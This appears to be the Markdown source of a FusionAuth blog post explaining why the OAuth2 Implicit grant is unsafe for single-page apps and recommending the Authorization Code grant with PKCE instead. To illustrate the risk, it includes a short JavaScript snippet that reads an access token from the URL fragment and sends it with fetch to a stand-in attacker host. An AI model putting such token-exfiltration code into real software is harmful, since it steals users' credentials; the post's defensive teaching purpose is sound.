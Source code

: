 ```yaml
---
layout: blog-post
title: What's Wrong With the Implicit Grant?
description: OAuth2 specifies an Implicit grant. What's wrong with using it?
author: Brian Pontarelli
image: blogs/securing-golang-microservice-jwt/securing-a-go-microservice-with-jwt-header-image.png
category: blog
tags: client-javascript
excerpt_separator: "<!--more-->"
---
```

The Implicit grant is part of the OAuth 2 RFC, but is [one of the features omitted in the OAuth 2.1 specification](/learn/expert-advice/oauth/differences-between-oauth-2-oauth-2-1/). With this grant, you don't have to write server side code. Instead of having to exchange an authorization code for an access token, you are provided an access token on redirect.

<!--more-->

This is convenient if you are working in the JAMstack or in another situation where you don't want to run a server. 

However, it is horribly insecure, broken, deprecated, and should never, ever be used (ever). Okay, maybe that's being a bit dramatic, but please don't use this grant. The good folks behind the OAuth 2.1 draft agree, which is why they left it out of that new specification.

> The Implicit grant ("response_type=token") is omitted from this specification as per Section 2.1.2 of OAuth 2.0 Security Best Current Practices

## Run away

Instead of showing you how to use this grant, let's discuss why you should avoid it.

{% include _image.liquid src="/assets/img/blogs/avoid-implicit-grant/Rabbitattack.jpg" alt="Just a rabbit?" class="img-fluid" figure=false %}

The reason that it has been removed is that it skips an important step that allows you to secure the tokens you receive from the OAuth server. This step occurs when your application backend makes the call to the Token endpoint to retrieve the tokens.

Unlike the [Authorization Code grant](/docs/v1/tech/oauth/#example-authorization-code-grant), the Implicit grant does not redirect the browser back to your application backend with an Authorization Code. Instead, it puts the access token directly on the URL as part of the redirect. These URLs look like this:

`https://piedpiper.com/#token-goes-here`

The token is added to the redirect URL after the `#` symbol, which means it is technically the fragment portion of the URL. What this means is that wherever the OAuth server redirects the browser to, the access token is accessible to any code running in the browser. In other words, to basically everyone. 

To be more precise, the access token is accessible to any and all JavaScript that is running in the browser (including third party libraries). Since this token allows the browser to make API calls and web requests on behalf of the user, having this token be accessible to third-party code is extremely dangerous.

Let's take a dummy example of a single-page web application that uses the Implicit grant:

```html
// This is dummy code for a SPA that uses the access token
<html>
<head>
  <script type="text/javascript" src="/my-spa-code-1.0.0.js"></script>
  <script type="text/javascript" src="https://some-third-party-server.com/a-library-found-online-that-looked-cool-0.42.0.js"></script>
</head>
<body>
...
</body>
```

This HTML includes two JavaScript libraries:

* The code for the application itself (`my-spa-code-1.0.0.js`).
* A library we found online that did something cool and we just pulled it in (`a-library-found-online-that-looked-cool-0.42.0.js`).

Let's assume that our code is 100% secure and we don't have to worry about it. The issue here is that the library we pulled in is an unknown quantity. 

It might include other libraries as well. Remember that the DOM is dynamic. Any JavaScript can load any other JavaScript library simply by updating the DOM with more `<script>` tags. Therefore, we have very little chance of ensuring that every other line of code from third-party libraries is secure. 

After all, **do you** audit every javascript library and every dependency of every library every time you deploy your application? 

If a third-party library wanted to steal an access token from our dummy application, all it would need to do is run this code:

```javascript
if (window.location.hash.contains('access_token')) {
  fetch('http://steal-those-tokens.com/yummy?hash=' + window.location.hash);
}
```

Three lines of code and the access token has been stolen. As you can see, the risk of leaking tokens is far too high to ever consider using the Implicit grant. This is why we recommend that no one ever use this grant.

## How to correctly use OAuth in a SPA

Well, if you are building an awesome React, Angular, Vue or other single page application, what should you use instead of the Implicit grant?

Use the Authorization Code grant. It's secure, safe, well tested, standardized and keeps tokens out of the URL.

In addition to using that grant, take these steps to secure your SPA OAuth flow:

* Use PKCE in your SPA to make sure your application, which can't maintain a secure client secret, is not susceptible to an authorization code interception attack.
* Run a server. It needn't be complicated. In fact, it can be as simple as a few lines of node to exchange the authorization code for an access token. Here's [an example Node application](https://github.com/fusionauth/fusionauth-example-node). This is also known as the BFF, or Backend For a Frontend, pattern.
* Store access tokens out of reach of JavaScript in the browser. You could store them in a server side session, or in `secure`, `HttpOnly` cookies.

Want to learn more about the different OAuth grants? Check out [The Modern Guide to OAuth](/learn/expert-advice/oauth/modern-guide-to-oauth/) for an in-depth look at all the different OAuth grants and how you might use them in the real world.

Happy coding!
